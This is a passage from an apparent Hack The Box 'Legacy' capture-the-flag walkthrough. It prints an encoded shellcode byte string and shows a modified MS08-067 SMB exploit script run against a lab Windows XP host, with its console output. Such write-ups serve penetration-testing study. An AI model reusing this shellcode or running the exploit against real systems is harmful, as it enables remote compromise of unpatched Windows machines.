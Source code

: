 ```c
"\xf0\x85\x92\xbb\x83\xee\xfc\xe2\xf4\x0c\x6d\x10\xbb\xf0\x85"
"\xf2\x32\x15\xb4\x52\xdf\x7b\xd5\xa2\x30\xa2\x89\x19\xe9\xe4"
"\x0e\xe0\x93\xff\x32\xd8\x9d\xc1\x7a\x3e\x87\x91\xf9\x90\x97"
"\xd0\x44\x5d\xb6\xf1\x42\x70\x49\xa2\xd2\x19\xe9\xe0\x0e\xd8"
"\x87\x7b\xc9\x83\xc3\x13\xcd\x93\x6a\xa1\x0e\xcb\x9b\xf1\x56"
"\x19\xf2\xe8\x66\xa8\xf2\x7b\xb1\x19\xba\x26\xb4\x6d\x17\x31"
"\x4a\x9f\xba\x37\xbd\x72\xce\x06\x86\xef\x43\xcb\xf8\xb6\xce"
"\x14\xdd\x19\xe3\xd4\x84\x41\xdd\x7b\x89\xd9\x30\xa8\x99\x93"
"\x68\x7b\x81\x19\xba\x20\x0c\xd6\x9f\xd4\xde\xc9\xda\xa9\xdf"
"\xc3\x44\x10\xda\xcd\xe1\x7b\x97\x79\x36\xad\xed\xa1\x89\xf0"
"\x85\xfa\xcc\x83\xb7\xcd\xef\x98\xc9\xe5\x9d\xf7\x7a\x47\x03"
"\x60\x84\x92\xbb\xd9\x41\xc6\xeb\x98\xac\x12\xd0\xf0\x7a\x47"
"\xeb\xa0\xd5\xc2\xfb\xa0\xc5\xc2\xd3\x1a\x8a\x4d\x5b\x0f\x50"
"\x05\xd1\xf5\xed\x98\xb1\xfe\x8d\xfa\xb9\xf0\x84\x29\x32\x16"
"\xef\x82\xed\xa7\xed\x0b\x1e\x84\xe4\x6d\x6e\x75\x45\xe6\xb7"
"\x0f\xcb\x9a\xce\x1c\xed\x62\x0e\x52\xd3\x6d\x6e\x98\xe6\xff"
"\xdf\xf0\x0c\x71\xec\xa7\xd2\xa3\x4d\x9a\x97\xcb\xed\x12\x78"
"\xf4\x7c\xb4\xa1\xae\xba\xf1\x08\xd6\x9f\xe0\x43\x92\xff\xa4"
"\xd5\xc4\xed\xa6\xc3\xc4\xf5\xa6\xd3\xc1\xed\x98\xfc\x5e\x84"
"\x76\x7a\x47\x32\x10\xcb\xc4\xfd\x0f\xb5\xfa\xb3\x77\x98\xf2"
"\x44\x25\x3e\x72\xa6\xda\x8f\xfa\x1d\x65\x38\x0f\x44\x25\xb9"
"\x94\xc7\xfa\x05\x69\x5b\x85\x80\x29\xfc\xe3\xf7\xfd\xd1\xf0"
"\xd6\x6d\x6e";
```

After pasting our ```shellcode``` in the exploit file, lets try running it

```c
┌──(aidenpearce369㉿aidenpearce369)-[~/HTB/Legacy]
└─$ python2 ms08-067.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################


$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .


#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```
